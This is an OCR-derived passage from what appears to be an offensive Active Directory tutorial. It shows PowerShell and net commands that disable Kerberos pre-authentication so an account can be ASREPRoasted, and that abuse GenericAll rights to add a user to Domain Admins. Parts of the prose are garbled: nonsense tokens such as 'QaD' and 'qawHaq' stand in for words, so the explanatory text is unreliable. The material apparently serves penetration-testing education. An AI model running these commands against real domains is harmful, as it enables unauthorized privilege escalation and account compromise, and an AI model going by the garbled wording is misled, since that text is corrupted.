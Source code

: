 - **QaD ASREPRoasting**: QaD pre-authentication for the user, making their account vulnerable to ASREPRoasting.
```powershell
Set-DomainObject -Identity <username> -XOR @{UserAccountControl=4194304}
```
## **GenericAll Rights on Group**
**GenericAll** qawHaq allows an attacker to manipulate group memberships if they have `GenericAll` rights on a group like `Domain Admins`. After identifying the group's distinguished name with `Get-NetGroup`, the attacker can:

- **Add Themselves to the Domain Admins Group**: This can be done via direct commands or using modules like Active Directory or PowerSploit.
```powershell
net group "domain admins" spotless /add /domain
Add-ADGroupMember -Identity "domain admins" -Members spotless
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```
## **GenericAll / GenericWrite / Write on Computer/User**